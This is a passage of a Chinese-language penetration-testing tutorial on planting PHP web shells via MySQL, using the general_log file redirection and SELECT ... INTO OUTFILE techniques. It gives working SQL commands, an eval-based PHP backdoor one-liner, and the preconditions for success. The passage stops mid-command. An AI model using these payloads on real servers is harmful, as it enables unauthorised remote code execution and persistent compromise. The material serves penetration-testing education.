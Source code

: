 > 在 `my.ini`、`my.cnf`、`mysqld.cnf` 文件中找到 `secure_file_prive` 并将其值设置为 ""或"/"，重启 MySQL 服务！

> 这是通用方法，在 `phpstudy` 中的 `mysql` 的配置文件中是没有这个参数的
>
> 所以我们自己在配置文件中添加一行 `secure_file_priv =` 即可。





#### 3.2 日志读写权限

查看日志状态：

```sql
show variables  like  '%general%';
show variables like '%slow%'; -- 慢查询日志
```

general 开启时，所执行的 `sql` 语句都会出现在 ***\****.log 文件。

```sql
SET GLOBAL general_log='on'
```

如果将general_log_file的值换成shell路径

```sql
SET GLOBAL general_log_file = 'C:/phpStudy/WWW/shell.php'
```

然后执行简单的查询

```sql
select '<?php @eval($_POST["123"]);?>'
```

即可写入shell



## 0x02 后台写shell思路



### 1. 常规into outfile&into dumpfile

两者有所区别

> into outfile 主要的目的是导出 文本文件，我们在渗透过程中是用来写 shell 的
> into dumpfile 的主要目的是导出二进制文件，在后面我们讲到 UDF 提权的过程中会经常用到这个函数生成我们的 udf.dll

写shell主要用outfile

**需要条件：**

- 当前的数据库用户有写权限
- 知道 web 绝对路径
- web 路径能写

```sql
select '<?php @eval($_POST[soap]);?>' into outfile 'C:\\phpstudy\\PHPTutorial\\WWW\\
```
